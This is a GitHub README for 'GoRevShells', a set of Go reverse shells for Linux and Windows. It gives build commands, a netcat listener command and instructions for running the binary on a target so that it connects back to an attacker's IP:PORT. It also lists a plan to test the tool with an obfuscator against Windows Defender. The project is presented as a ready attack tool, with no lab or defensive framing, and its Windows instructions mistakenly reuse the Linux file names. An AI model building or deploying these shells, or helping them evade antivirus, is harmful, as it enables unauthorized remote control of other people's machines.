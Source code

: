 [![forthebadge](https://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/0-percent-optimized.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/certified-snoop-lion.svg)](https://forthebadge.com)
# GoRevShells
Basic reverse shells for linux and windows written in Go. Based off of @yougg's https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

## How to run (basic compilation; plenty of guides online on how to specify target operating system & architecture)
```
$ git clone https://github.com/NihilistPenguin/GoRevShells.git
$ cd GoRevshells
```
#### For linux target:
```
$ cd linux
$ GOOS=linux go build linrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ ./linrev IP:PORT` or `$ ./linrev` (uses value set in *const default_host* of linrev.go file)

#### For windows target:
```
$ cd windows
$ GOOS=windows go build winrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ .\winrev IP:PORT` or `$ .\linrev` (uses value set in *const default_host* of linrev.go file)


## TODO:
- add parameter for verbose output
- test it with obfuscator against Windows Defender
- other stuff I can't think of right now
